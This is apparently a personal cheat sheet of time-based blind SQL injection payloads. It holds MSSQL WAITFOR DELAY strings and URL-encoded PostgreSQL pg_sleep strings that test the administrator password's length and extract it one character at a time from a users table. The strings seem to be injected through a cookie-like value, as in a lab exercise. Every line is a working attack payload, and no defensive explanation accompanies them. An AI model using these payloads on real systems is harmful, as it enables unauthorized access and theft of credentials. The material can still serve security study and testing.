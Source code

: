[[postgresql]]
[[sql]]

```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```


Testing one by one character
```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```


postgresql
```sql
DmPM58WZKAHfc8BB'%3BSELECT+CASE+WHEN+(username='administrator'+and+length(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+from+users--
```
brut force ony by one char:
```sql
DmPM58WZKAHfc8BB'%3BSELECT+CASE+WHEN+(username='administrator'+and+substring(password,5,1)='a')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+from+users--
```

